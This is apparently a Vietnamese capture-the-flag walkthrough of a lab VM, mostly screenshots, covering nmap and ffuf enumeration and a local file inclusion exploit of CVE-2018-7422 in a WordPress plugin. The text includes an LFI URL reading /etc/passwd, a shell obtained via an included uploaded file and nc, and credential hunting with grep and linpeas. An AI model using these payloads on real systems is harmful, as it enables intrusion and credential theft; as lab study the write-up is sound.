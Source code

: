 ![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/cf7b2147-041f-4750-ab51-f6b1c206df31)

# ENUMERATING
## ip sweep
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/7bb869d2-d1a5-45ea-ac98-ffcbfed2a3f6)

## using nmap
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/0e3960f5-47df-4949-9708-987a0011a9c9)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/74cb16f0-b389-403e-acc0-5999bbbc0060)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/e30c8af3-b046-47ce-b5fb-f1bbcac6414c)

=> ip của máy là 192.168.199.140 và đang mở 2 port 22, 80.

## using ffuf
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/621e93b9-5986-4f23-85d1-74f3219bce17)

## view web
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/6a7f8aa5-1909-4907-a123-850aeaf07ac4)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/05d005ac-efac-492f-ac92-7163ae2c5739)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/57d799d1-bd66-4643-8414-20eb7880e06c)

hmm.. file đã được tải lên thành công và chuyển tới /tmp
## using nuclei tool
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/1933362e-9863-4f78-9bc8-b748b6e9f118)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/4f68d86b-0c34-486f-8d0f-1ffb87da2b11)

truy cập từ đường dẫn tìm thấy khi dùng CVE-2018-7422 : ```http://192.168.199.140/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd```

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/a5795c81-df26-4894-80db-e865d9df399e)

=> lỗi LFI

# EXPLOITING
thay đổi URL dẫn tới tệp /tmp/hello.php
![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/61cccf58-3ff7-4e5c-967b-a1e27a5f6db2)

sử dụng ```nc``` => thành công lấy được shell

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/24d306e6-2afb-45b2-99e9-95455b53f0f5)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/a3354793-012d-4aeb-81a6-424b53bbffe4)

khi thử chạy câu lênh ```grep -r "password" /etc/``` thấy ```/usr/bin/mysqladmin -u root -h app109 password 'new-password'$```

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/cbab3a5a-c0f7-45c2-ac25-fab760b97ca4)

upload linpeas.sh và chạy câu lệnh ```sh linpeas.sh > linpeas.txt```

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/0b142bb0-97ae-47d1-9b8e-1a9974a4f1fd)

=> wordpress:Lx5l29XychQY

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/e2bd609e-bc90-4ef0-a26c-53a1485c2619)

![image](https://github.com/nguyenngocdung18/OVA/assets/134156226/4785baca-ae35-4a15-836a-0932a39be0c4)

=))))))) ta thu được cái thông tin mà ta có rồi, chả có tác dụng gì
